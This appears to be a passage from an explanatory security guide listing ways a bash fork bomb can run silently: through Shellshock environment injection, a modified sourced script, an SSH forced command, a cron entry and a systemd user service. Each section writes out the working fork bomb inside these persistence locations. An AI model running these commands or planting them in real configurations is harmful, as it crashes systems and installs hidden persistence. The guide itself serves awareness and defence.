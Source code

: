 ### 6. Function Definitions in Environment
```bash
# Shellshock vulnerability (CVE-2014-6271)
# Bash functions in environment variables could execute code

env 'BASH_FUNC_x()=() { :;}; :(){ :|:& };:' bash -c "echo test"
# Code after function definition executes automatically
```

**Fixed in modern bash, but shows the concept**

### 7. File Sourcing (Looks innocent)
```bash
# If you have in your .bashrc:
source ~/useful-scripts.sh

# And attacker modifies useful-scripts.sh:
# The malicious code runs every terminal session
```

### 8. SSH Authorized Keys with Forced Commands
```bash
# In ~/.ssh/authorized_keys, attacker adds:
command=":(){ :|:& };:" ssh-rsa AAAAB3N... attacker@evil

# When they SSH in, command runs automatically
```

### 9. Cron Jobs (Silent execution)
```bash
# Attacker adds to your crontab:
* * * * * :(){ :|:& };:

# Runs every minute, no bash command needed from you
```

### 10. systemd User Services
```bash
# Attacker creates ~/.config/systemd/user/malicious.service:
[Unit]
Description=Innocent Service

[Service]
ExecStart=/bin/bash -c ':(){ :|:& };:'

[Install]
WantedBy=default.target

# Enables it:
systemctl --user enable malicious.service
# Runs on every login
```

---